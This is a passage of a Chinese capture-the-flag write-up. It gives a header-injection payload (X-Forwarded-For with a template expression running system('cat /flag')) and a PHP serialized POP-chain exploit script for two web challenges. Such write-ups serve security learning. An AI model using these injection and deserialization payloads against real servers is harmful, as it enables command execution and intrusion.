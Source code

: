 查看源码即可

![](https://seandictionary.top/wp-content/uploads/2025/01/image-7.png)

### web-ip | FINISHED

使用hack-bar在请求头中添加X-Forwarded-For:127.0.0.1{{system('cat /flag')}}即可

### web-pop | FINISHED

```
<?php
class Start{
  public $name;
  protected $func;
  public function __construct($aa)
 {
    $this->func = $aa;
 }
}
class Sec{
  private $obj;
  private $var;
  public function __construct($aa, $bb)
 {
    $this->obj = $aa;
    $this->var = $bb;
 }
}
class Easy{
  public $cla;
}
class eeee{
  public $obj;
  public function __construct()
 {
    $this->obj = new Start(new Sec(0,0));
 }
}
$a = new Start(0);
$a->name = new Sec(new Easy(), new eeee());
echo urlencode(serialize($a));
```

php反序列化，构造pop链传参即可

![](https://seandictionary.top/wp-content/uploads/2025/01/image-6-1024x722.png)

## Reverse

### Checker | FINISHED
